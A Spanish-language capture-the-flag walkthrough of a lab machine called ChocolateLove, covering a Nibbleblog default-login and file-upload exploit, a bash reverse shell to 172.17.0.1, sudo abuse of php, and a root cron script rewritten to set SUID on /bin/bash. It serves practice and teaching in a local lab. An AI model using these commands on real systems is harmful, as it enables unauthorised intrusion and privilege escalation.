


# ChocolateLove

Solo obtenemos `80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))`
En el F12 vemos:

```text
Modified from the Debian original for Ubuntu
Last updated: 2016-11-16
See: https://launchpad.net/bugs/1288690
```


```text
/nibbleblog
```
...
Probamos la ruta `172.17.0.2/nibbleblog` y existe.

Al probar con credenciales default, entramos con *admin:admin* xd
En settings se obtiene la versión de Nibbleblog



Buscamos exploit en *msfconsole*
Usamos `msf exploit(multi/http/nibbleblog_file_upload)` SIN EXITO

En la parte de administracion -> plugins -> My Image -> Install
Ahora sí nos dejará ejecutar el exploit de **subida de archivos** y obtendremos acceso
**www-data**

Sanitizamos la shell
`bash -c "bash -i >&/dev/tcp/172.17.0.1/443 0>&1" `
*-c* : interpretar comando que se le pasa
*-i* : modo interactivo
`172.17.0.1` suele ser la **IP gateway del puente Docker**
`stty rows 16 columns 184`

## Escalada

*(chocolate) NOPASSWD: /usr/bin/php* -> GTFOBINS
`CMD="/bin/bash"`
`sudo -u chocolate /usr/bin/php -r "system('$CMD');"`
**chocolate**

con `sudo -l` no vemos ningún proces

listamos los procesos que corren en el sistema
`ps -ef`
*-e* : muestra todos los procesos
*-f* : formato completo, añade columnas adicionales

Vemos un proceso ejecutado por root con un *script.php*
*/bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done*

Modificamos el script.php
`echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php`
`chmod(u+s)` -> El bit **SUID** hace que **cuando un archivo ejecutable se ejecuta**, el proceso resultante **toma el _UID del propietario del archivo_**, en lugar del usuario que lo ejecutó. Esquema:



Comprobar -> `ls -l /bin/bash
*-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash* -> la *s* muestra el SUID bit

`bash -p` -> iniciar bash en modo privilegiado
**root**
